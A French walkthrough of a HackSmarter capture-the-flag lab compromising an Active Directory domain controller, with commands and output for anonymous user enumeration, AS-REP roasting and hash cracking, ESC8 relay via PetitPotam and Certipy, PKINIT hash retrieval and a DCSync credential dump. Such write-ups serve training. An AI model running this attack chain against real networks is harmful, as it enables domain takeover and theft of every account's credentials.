[🇬🇧 English](README.md) | 🇫🇷 Français

---

# ShadowGate — Walkthrough Pentest Active Directory

**Cible :** `10.1.143.92`
**OS :** Windows Server 2022 (Build 20348)
**Domaine :** `shadow.gate` | **DC :** `DC01.shadow.gate`
**Difficulté :** Facile
**Catégorie :** Active Directory / ADCS
**Plateforme :** HackSmarter

---

## Objectif du Challenge

> ShadowGate vient de finaliser une acquisition d'entreprise qui a considérablement élargi son réseau interne, sa base utilisateurs et son parc applicatif. Plusieurs systèmes critiques ont été migrés et consolidés dans des délais serrés afin de minimiser les interruptions de service.
>
> Bien que la validation fonctionnelle ait été réalisée, l'organisation a reporté un audit de sécurité complet en raison des contraintes de délai et de personnel. La direction a depuis demandé un test d'intrusion indépendant afin de valider la posture de sécurité du nouvel environnement et d'identifier tout risque significatif avant le prochain cycle d'audit.
>
> L'évaluation portera sur la capacité d'un attaquant motivé disposant d'un accès réseau standard à compromettre des systèmes sensibles, élever ses privilèges ou se déplacer latéralement dans l'environnement de l'entreprise.

**Accès initial :** Accès VPN au réseau interne uniquement, aucun identifiant fourni.



---

## Résumé de la chaîne d'attaque

```
Recon (session SMB null)
  → Énumération des utilisateurs
  → AS-REP Roasting (jtrueblood)
  → Hash cracké
  → ADCS découvert via le partage CertEnroll
  → ESC8 confirmé (Certipy)
  → Coercition PetitPotam + relay Certipy
  → Certificat machine DC01 (dc01.pfx)
  → NT hash via PKINIT
  → DCSync
  → Domain Admin
```

---

## 1. Reconnaissance

### Découverte du service SMB

```bash
nxc smb 10.1.143.92
```

```
SMB    10.1.143.92   445   DC01   [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:shadow.gate) (signing:False) (SMBv1:None)
```

**Constat :** Windows Server 2022, hôte `DC01`, domaine `shadow.gate`, **signature SMB désactivée** — un signal d'alerte dès le départ : ça ouvrira la voie à un relay NTLM plus tard dans la chaîne.



---

## 2. Énumération — Session Null

Une **session null** est une connexion SMB anonyme (nom d'utilisateur et mot de passe vides). Si `RestrictAnonymous` est mal configuré sur le DC, cela permet d'interroger l'interface SAMR et de lister les comptes du domaine sans aucune authentification.

```bash
nxc smb 10.1.143.92 -u '' -p '' --users
```

```
SMB    10.1.143.92   445   DC01   [+] shadow.gate\: 
SMB    10.1.143.92   445   DC01   -Username-        -Last PW Set-        -BadPW- -Description-
SMB    10.1.143.92   445   DC01   Administrator      2026-01-11 11:33:05  0      Built-in account for administering the computer/domain
SMB    10.1.143.92   445   DC01   Guest              <never>              0      Built-in account for guest access to the computer/domain
SMB    10.1.143.92   445   DC01   krbtgt              2026-01-12 02:45:27  0      Key Distribution Center Service Account
SMB    10.1.143.92   445   DC01   ATHENA              2026-03-04 15:23:19  0
SMB    10.1.143.92   445   DC01   mbrownlee           2026-03-04 15:24:05  0
SMB    10.1.143.92   445   DC01   bbrown              2026-01-15 14:24:07  0
SMB    10.1.143.92   445   DC01   jtrueblood          2026-04-28 18:14:47  0
SMB    10.1.143.92   445   DC01   jsmith              2026-03-04 15:26:29  0
SMB    10.1.143.92   445   DC01   clocke              2026-03-04 15:24:32  0
SMB    10.1.143.92   445   DC01   tclarke             2026-03-04 15:25:33  0
SMB    10.1.143.92   445   DC01   jbradford           2026-03-04 15:24:59  0
SMB    10.1.143.92   445   DC01   amoss               2026-03-04 15:25:52  0
SMB    10.1.143.92   445   DC01   [*] Enumerated 12 local users: SHADOW
```

**Constat :** 12 utilisateurs du domaine énumérés de façon anonyme.



### Constitution de la liste d'utilisateurs

```bash
cat > users.txt << 'EOF'
administrator
guest
krbtgt
ATHENA
mbrownlee
bbrown
jtrueblood
jsmith
clocke
tclarke
jbradford
amoss
EOF
```

---

## 3. Accès initial — AS-REP Roasting

### Théorie

L'authentification Kerberos requiert normalement une **pré-authentification** : le client prouve qu'il connaît le mot de passe du compte en chiffrant un timestamp avec le hash NT dérivé du mot de passe (AS-REQ), que le KDC valide avant de délivrer un TGT (AS-REP).

Si un compte a l'attribut **`UF_DONT_REQUIRE_PREAUTH`** activé, le KDC saute cette vérification et délivre quand même l'AS-REP. Une partie de cet AS-REP est chiffrée avec le **hash NT du compte lui-même**, qui peut être extraite et cassée hors-ligne — c'est l'**AS-REP Roasting**.

### Attaque

```bash
impacket-GetNPUsers shadow.gate/ -usersfile users.txt -no-pass -dc-ip 10.1.143.92
```

```
[-] User administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User ATHENA doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mbrownlee doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User bbrown doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$jtrueblood@SHADOW.GATE:[REDACTED]
[-] User jsmith doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User clocke doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User tclarke doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User jbradford doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User amoss doesn't have UF_DONT_REQUIRE_PREAUTH set
```

**Constat :** `jtrueblood` ne requiert pas de pré-authentification Kerberos → hash AS-REP capturé.



### Cassage du hash

```bash
hashcat -m 18200 jtrueblood.asrep /usr/share/wordlists/rockyou.txt
```

Alternative avec John the Ripper :

```bash
john --format=krb5asrep --wordlist=/usr/share/wordlists/rockyou.txt jtrueblood.asrep
john --format=krb5asrep --show jtrueblood.asrep
```

```
$krb5asrep$23$jtrueblood@SHADOW.GATE:[REDACTED]
1 password hash cracked, 0 left
```

**Identifiants obtenus :**
- Utilisateur : `jtrueblood`
- Mot de passe : `[REDACTED]`
- Domaine : `SHADOW.GATE`



---

## 4. Énumération post-exploitation (en tant que jtrueblood)

### Validation des identifiants et listing des partages

```bash
nxc smb 10.1.143.92 -u jtrueblood -p '[REDACTED]' --shares
```

```
SMB    10.1.143.92   445   DC01   [+] shadow.gate\jtrueblood:[REDACTED]
Share        Permissions   Remark
-----        -----------   ------
ADMIN$                     Remote Admin
C$                         Default share
CertEnroll   READ          Active Directory Certificate Services share
IPC$         READ          Remote IPC
NETLOGON     READ          Logon server share
SYSVOL       READ          Logon server share
```

**Constat clé :** le partage `CertEnroll` est présent. Ce partage n'existe que lorsque **Active Directory Certificate Services (ADCS)** est installé — un signal immédiat qu'une Autorité de Certification tourne sur le DC et doit être auditée.



### Navigation dans le partage CertEnroll

```bash
smbclient //10.1.143.92/CertEnroll -U 'jtrueblood'
```

```
DC01.shadow.gate_shadow-DC01-CA.crt
nsrev_shadow-DC01-CA.asp
shadow-DC01-CA+.crl
shadow-DC01-CA.crl
```



---

## 5. Énumération ADCS — Découverte d'ESC8

```bash
certipy find -u jtrueblood -p '[REDACTED]' -dc-ip 10.1.143.92 -vulnerable -stdout
```

```
Certificate Authorities
  0
    CA Name                 : shadow-DC01-CA
    DNS Name                : DC01.shadow.gate
    Web Enrollment
      HTTP
        Enabled              : True
      HTTPS
        Enabled              : False
    Access Rights
      Enroll                 : SHADOW.GATE\Authenticated Users
    [!] Vulnerabilities
      ESC8                   : Web Enrollment is enabled over HTTP.
```

**Constat — ESC8 :** la CA a l'enrôlement web activé en **HTTP** (pas HTTPS), et `Authenticated Users` peut s'enrôler. L'authentification NTLM via HTTP vers le point d'enrôlement n'étant pas protégée contre le relay, cela ouvre la voie à une attaque de relay NTLM contre la CA.



---

## 6. Élévation de privilèges — ESC8 (Relay NTLM vers ADCS via PetitPotam)

### Théorie

L'attaque se déroule en trois temps :

1. On met en place un listener de relay NTLM (`certipy relay`) pointé vers le endpoint d'enrôlement web de la CA.
2. On force le Contrôleur de Domaine à s'authentifier vers notre machine via **PetitPotam** (exploite le protocole MS-EFSRPC).
3. L'authentification NTLM du DC est relayée vers la CA, qui délivre un **certificat pour le compte machine du DC lui-même (`DC01$`)** basé sur le template `DomainController`.

Ce certificat peut ensuite être utilisé pour s'authentifier en tant que `DC01$` via Kerberos PKINIT et récupérer son hash NT.

### Prérequis — ajouter le DC dans `/etc/hosts`

```bash
echo "10.1.143.92 DC01.shadow.gate shadow.gate" | sudo tee -a /etc/hosts
```

### Étape 1 — Démarrer le relay Certipy (Terminal 1)

```bash
certipy relay -target http://DC01.shadow.gate/certsrv/certfnsh.asp -template DomainController
```

### Étape 2 — Coercition de l'authentification DC avec PetitPotam (Terminal 2)

```bash
git clone https://github.com/topotam/PetitPotam /opt/PetitPotam
python3 /opt/PetitPotam/PetitPotam.py -u jtrueblood -p '[REDACTED]' -d shadow.gate <IP_KALI> 10.1.143.92
```

```
[-] Sending EfsRpcEncryptFileSrv!
[+] Got expected ERROR_BAD_NETPATH exception!!
[+] Attack worked!
```



### Résultat — Terminal 1 (relay)

```
[*] (SMB): Authenticating connection from /@10.1.143.92 against http://DC01.shadow.gate SUCCEED [1]
[*] Requesting certificate for '\\' based on the template 'DomainController'
[*] Certificate issued with request ID 5
[*] Got certificate with DNS Host Name 'DC01.shadow.gate'
[*] Saving certificate and private key to 'dc01.pfx'
[*] Wrote certificate and private key to 'dc01.pfx'
```

**Constat :** le DC s'est authentifié sur notre relay, et un certificat machine valide (`dc01.pfx`) pour `DC01$` a été délivré et sauvegardé.



---

## 7. PKINIT — Récupération du hash NT du compte machine

```bash
certipy auth -pfx dc01.pfx -dc-ip 10.1.143.92
```

```
[*] Certificate identities:
[*]     SAN DNS Host Name: 'DC01.shadow.gate'
[*] Using principal: 'dc01$@shadow.gate'
[*] Trying to get TGT...
[*] Got TGT
[*] Trying to retrieve NT hash for 'dc01$'
[*] Got hash for 'dc01$@shadow.gate': aad3b435b51404eeaad3b435b51404ee:[REDACTED]
```

**Explication :** le certificat prouve l'identité `DC01$`. Certipy l'utilise pour demander un TGT via **PKINIT** (authentification Kerberos par certificat) et dérive le hash NT du compte à partir de l'échange de tickets.



---

## 8. Mouvement latéral — DCSync

Les comptes machine des Contrôleurs de Domaine disposent, par défaut, des droits de réplication (`Get-Replication-Changes-All`) sur le domaine. Avec le hash NT de `DC01$`, on peut effectuer un **DCSync** légitime en apparence pour dumper tous les identifiants du domaine.

```bash
impacket-secretsdump -hashes aad3b435b51404eeaad3b435b51404ee:[REDACTED] shadow.gate/DC01\$@10.1.143.92
```

```
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:[REDACTED]:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:[REDACTED]:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:[REDACTED]:::
shadow.gate\jtrueblood:1110:aad3b435b51404eeaad3b435b51404ee:[REDACTED]:::
...
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:[REDACTED]:::
```

**Constat :** dump complet des identifiants du domaine obtenu, incluant :
- Hash NT `Administrator` → accès administrateur complet
- Hash NT `krbtgt` → attaque Golden Ticket possible

